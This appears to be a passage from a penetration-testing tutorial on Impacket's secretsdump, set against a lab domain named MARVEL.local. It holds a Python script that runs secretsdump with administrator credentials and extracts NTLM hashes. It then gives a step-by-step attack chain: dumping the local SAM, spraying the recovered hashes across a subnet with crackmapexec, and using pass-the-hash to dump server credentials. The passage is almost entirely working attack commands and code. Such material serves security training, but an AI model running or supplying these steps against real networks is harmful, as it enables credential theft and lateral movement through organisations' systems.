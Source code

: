 #### Python Integration
```python
#!/usr/bin/env python3
import subprocess
import sys
import re

def extract_ntlm_hashes(secretsdump_output):
    """Extract NTLM hashes from secretsdump output"""
    hash_pattern = r'([^:]+):(\d+):([a-f0-9]{32}):([a-f0-9]{32}):::'
    hashes = []
    
    for line in secretsdump_output.split('\n'):
        match = re.search(hash_pattern, line)
        if match:
            username, rid, lm_hash, ntlm_hash = match.groups()
            if ntlm_hash != '31d6cfe0d16ae931b73c59d7e0c089c0':  # Not empty hash
                hashes.append((username, ntlm_hash))
    
    return hashes

def run_secretsdump(target, domain, username, password):
    """Run secretsdump and return output"""
    cmd = f"secretsdump.py {domain}/{username}:{password}@{target}"
    result = subprocess.run(cmd.split(), capture_output=True, text=True)
    return result.stdout

# Usage example
target = "192.168.1.10"
domain = "MARVEL.local"
username = "administrator"
password = "Password1"

output = run_secretsdump(target, domain, username, password)
hashes = extract_ntlm_hashes(output)

for user, hash_val in hashes:
    print(f"{user}:{hash_val}")
```

### Real-World Attack Chain with secretsdump

#### Phase 1: Initial Access
```bash
# 1. Gained access to workstation as local admin
# 2. Dump local SAM for additional credentials
secretsdump.py administrator:LocalPass123@192.168.1.50

# Found: user1:hash1, user2:hash2
```

#### Phase 2: Lateral Movement
```bash
# 3. Test dumped hashes on other systems
crackmapexec smb 192.168.1.0/24 -u user1 -H hash1

# 4. Found admin access to server
# 5. Dump server credentials
secretsdump.py -hashes :hash1 user1@192.168.1.100

# Found: serviceaccount:servicehash
```
